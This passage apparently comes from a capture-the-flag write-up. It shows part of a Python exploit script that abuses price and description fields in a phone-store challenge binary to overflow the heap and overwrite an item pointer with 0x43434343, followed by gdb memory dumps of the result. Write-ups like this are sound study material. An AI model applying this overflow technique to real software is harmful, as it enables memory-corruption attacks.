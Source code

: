 ```python
    readtil('price?')
    sendln('9'*0xf) # this will make the price of this item 0x7fffffff, ready to be abused later
    readtil('description?')
    sendln('B'*0x4f) 
    
    # allocate the rest of the items
    for i in range(13):
        readtil('choice?')
        sendln('a')     # sell a phone
        readtil('name?')
        sendln('A'*0x1f)
        readtil('OS?')
        sendln('4')
        readtil('price?')
        sendln('-'+'9'*0xe) # for these, we'll need the minus sign.
        readtil('description?')
        sendln('B'*0x4f)    
    
    # overflow
    readtil('choice?')
    sendln('a')
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
    sendln('4')
    readtil('price?')
    sendln('-'+'9'*0xe)
    readtil('description?')
    sendln('B'*(0x4f-4)+'CCCC')     # overflow with 0x43434343

    readtil('choice?')
    sendln('c') # generate store menu & overflow; 2nd item now points to 0x43434343

    raw_input()
pwn()

```

And in action:

```
gdb-peda$ x/40x 0x804b300
0x804b300:  0x08a50088  0x00000000  0x00000000  0x00000000
0x804b310:  0x00000000  0x00000000  0x00000000  0x00000000
0x804b320:  0x00000000  0x00000000  0x00000000  0x00000000
0x804b330:  0x00000000  0x00000000  0x00000000  0x00000000
0x804b340:  0x08a50008  0x08a50ba8  0x08a50c28  0x08a50ca8
0x804b350:  0x08a50d28  0x08a50da8  0x08a50e28  0x08a50ea8
0x804b360:  0x08a50f28  0x08a50fa8  0x08a51028  0x08a510a8
0x804b370:  0x08a51128  0x08a511a8  0x08a51228  0x08a512a8
0x804b380:  0x00000000  0x00000000  0x00000000  0x00000000
0x804b390:  0x00000000  0x00000000  0x00000000  0x00000000

# let's have a look at the second item:

gdb-peda$ x/40wx 0x08a50ba8
            .-- now overwritten!
            v
0x8a50ba8:  0x43434343  0x41414100  0x41414141  0x41414141
0x8a50bb8:  0x41414141  0x41414141  0x41414141  0x41414141
0x8a50bc8:  0x00414141  0x04b03741  0x41414108  0x41414141
0x8a50bd8:  0x41414141  0x41414141  0x41414141  0x41414141
0x8a50be8:  0x41414141  0x41414141  0x41414141  0x41414141
0x8a50bf8:  0x41414141  0x41414141  0x41414141  0x41414141
```